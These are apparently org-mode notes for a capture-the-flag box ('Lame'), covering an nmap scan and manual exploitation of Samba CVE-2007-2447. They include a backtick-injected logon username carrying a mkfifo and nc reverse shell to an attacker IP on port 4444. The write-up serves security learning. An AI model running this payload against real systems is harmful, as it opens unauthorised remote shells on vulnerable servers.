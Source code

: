 * solution:
  1. nmap
  #+begin_src sh
nmap -sC -sV -oA Lame.nmap <ip>
    ## find smb service with version
  #+end_src
  #+NAME: nmap result
  [[./nmap.png]]
  2. (since ftp backdoor does not work), search <smb 3.0.20>
      + CVE-2007-2447 (msfconsole will give this result)

* problems:
  + had to use smb version NT1 to connect to the server. 
  #+begin_src sh
## /etc/samba/smb.conf::[global], add the following line:
client min protocol = NT1
  #+end_src

  
* CVE-2007-2447 manual script:
   + config smbclient to use NT1
   + enumerate the smb directory, find where anonymous login is possible:
   #+begin_src sh
smbclient -L //ip -m NT1
## gives a list of folders
## among which, oops, /tmp allows anonymous login
   #+end_src
   
   + anonymous login to /tmp
   #+begin_src sh
smbclient //ip/tmp -m NT1
   #+end_src

   + use the logon script:
   #+begin_src sh
logon "/=`nohup rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.14.26 4444 >/tmp/g;rm /tmp/g`" ""
     ## logon “/= `<payload>`”
     ## based on CVE-2007-2447, the logon script did not censor user input properly, as a result, the script enclosed within the backtips is executed.
     ## vuln at source/smbd/map_username.c
     ## internal of the vuln: https://0x00sec.org/t/cvexplained-cve-2007-2447/22748
   #+end_src
